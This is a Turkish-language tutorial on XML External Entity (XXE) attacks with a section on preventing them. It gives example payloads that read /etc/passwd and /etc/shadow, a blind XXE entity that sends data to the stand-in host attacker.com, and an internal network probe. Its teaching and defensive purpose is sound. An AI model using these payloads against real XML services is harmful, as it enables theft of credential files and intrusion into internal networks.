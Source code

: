 # XXE (XML External Entity) Nedir?

**XXE (XML External Entity)**, XML verisinin işlendiği sistemlerde, kötü niyetli aktörlerin XML dosyası içinde tanımlanmış harici bir varlığı (**external entity**) kullanarak hassas dosyalara erişim sağlaması, kod yürütmesi veya hizmet reddine (DoS) neden olmasıdır. XXE saldırıları genellikle güvenlik önlemleri eksik olan XML işleyicilerinden kaynaklanır.

---

## Temel Örnek

Aşağıdaki XML, basit bir XXE saldırısı örneğidir. 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```

**Açıklama:**
- `<!ENTITY xxe SYSTEM "file:///etc/passwd">`: `xxe` isimli bir harici varlık tanımlar ve sistemden `/etc/passwd` dosyasını yüklemeye çalışır.
- `<productId>&xxe;</productId>`: Tanımlanan harici varlığı çağırır ve sunucuda belirtilen dosyanın içeriğini XML yanıtına ekler.

**Beklenen Etki:**
Sunucu, `/etc/passwd` dosyasının içeriğini döndürebilir, böylece saldırgan hassas bilgiler elde eder.

---

## Daha İleri Seviye XXE Payload'ları

### 1. **Sunucu Dosyalarına Erişim**

**Payload:**
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/shadow">
]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```

**Amaç:**
- Bu payload, Linux sisteminde kullanıcı şifrelerinin hash'lerini saklayan `etc/shadow` dosyasına erişmeye çalışır.

**Risk:**
- Erişim sağlanması durumunda, saldırgan brute force veya hash kırma araçlarıyla kullanıcı şifrelerini çözebilir.

### 2. **Harici Sunucu ile İletişim (Blind XXE)**

**Payload:**
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://attacker.com/malicious-data"> 
]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```

**Amaç:**
- Harici bir sunucuya (ör. saldırganın kontrolündeki `attacker.com`) veri sızdırmak veya sistemin ağ içinde hangi kaynaklara erişebileceğini keşfetmek.

**Senaryo:**
- Eğer sunucu dış bağlantılara izin veriyorsa, bu saldırı hassas bilgilerin (örn. erişim token'ları veya sistem yapılandırma bilgileri) harici sunucuya gönderilmesine neden olabilir.

### 3. **Ağ İçi Keşif ve Port Taraması**

**Payload:**
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> 
]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```

**Amaç:**
- Sunucunun ağ içinde hangi dahili sistemlere erişebildiğini belirlemek.
- Dahili sunucu hizmetlerini keşfetmek (örn. `http://internal.vulnerable-website.com`).

**Risk:**
- Dahili hizmetlere erişim sağlanırsa, saldırgan sistemler arasında zafiyet arayabilir.

---

## XXE Önleme Yöntemleri

1. **Dış Varlıkları Devre Dışı Bırakma**
   - XML işlemcisinde harici varlıkları devre dışı bırakmak en etkili yöntemlerden biridir.
   - Örneğin, Java'da harici varlıkları devre dışı bırakmak:
     ```java
     DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
     dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
     dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
     dbf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
     ```

2. **Güvenli XML İşleme Kütüphaneleri Kullanma**
   - Harici varlıkları varsayılan olarak devre dışı bırakan güvenli kütüphaneler tercih edilmelidir (örn. `defusedxml` Python için).

3. **Input Doğrulama ve Filtreleme**
   - Kullanıcıdan gelen XML girişini doğrulamak ve potansiyel zararlı içerikleri filtrelemek.

4. **XML Yerine JSON Kullanımı**
   - Mümkünse, JSON gibi daha az karmaşık ve daha güvenli veri formatlarına geçiş yapılabilir.

---

## Özet
XXE saldırıları, zayıf yapılandırılmış XML işleyicilerinde ciddi güvenlik riskleri oluşturur. Bu zafiyetleri anlamak ve önleyici önlemler almak, uygulama güvenliği açısından kritik öneme sahiptir.
